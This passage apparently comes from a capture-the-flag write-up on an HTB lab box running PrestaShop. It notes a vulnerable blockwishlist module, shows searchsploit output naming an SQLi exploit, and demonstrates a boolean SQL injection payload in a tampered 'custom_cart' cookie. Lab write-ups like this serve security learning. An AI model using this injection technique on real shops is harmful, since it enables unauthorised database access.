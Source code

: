 ```json
                    "controllers",
                    "classes"
                ]
            },
            "notification-url": "https://packagist.org/downloads/",
            "license": [
                "AFL-3.0"
            ],
            "authors": [
                {
                    "name": "PrestaShop SA",
                    "email": "contact@prestashop.com"
                }
            ],
            "description": "PrestaShop module blockwishlist",
            "homepage": "https://github.com/PrestaShop/blockwishlist",
            "support": {
                "source": "https://github.com/PrestaShop/blockwishlist/tree/v2.0.1"
            },
            "time": "2021-05-27T15:29:15+00:00"
        },
```


So so far we have a lot of information, and a lot of noise but the things potentially worth investigating are :   
- PrestaShop 1.7
- PrestaShop blockwishlist 2.0.1 

# Blockwishlist sqli:
[https://www.cybersecurity-help.cz/vdb/SB2022072609](https://www.cybersecurity-help.cz/vdb/SB2022072609)  
[https://github.com/PrestaShop/blockwishlist/commit/b3ec4b85af5fd73f74d55390b226d221298ca084](https://github.com/PrestaShop/blockwishlist/commit/b3ec4b85af5fd73f74d55390b226d221298ca084)

According the the PR this was fixed in 2.1.1 so this might still be it: 
```bash
searchsploit blockwish
------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                           |  Path
------------------------------------------------------------------------- ---------------------------------
Prestashop blockwishlist module 2.1.0 - SQLi                             | php/webapps/51001.py
------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Making an account and starting to poke around with the wishlist, the actual cart in this implementation is sent to the checkout.shared.htb page through the `custom_cart` cookie, which we can tamper with.  
Once url decoded the cookie looks like this: 
```bash
{"7DA8SKYP":"1"}             # Normal cookie the id shows up in the checkout page under product
{"asdf":"1"}                 # If we set a value that we know to be false, we see Not Found under product 
{"asdf' or 1=1 -- -":"1"}    # we know asdf returns false so if injection is possible, this would be true, and it is (product 53GG2EF8)
```
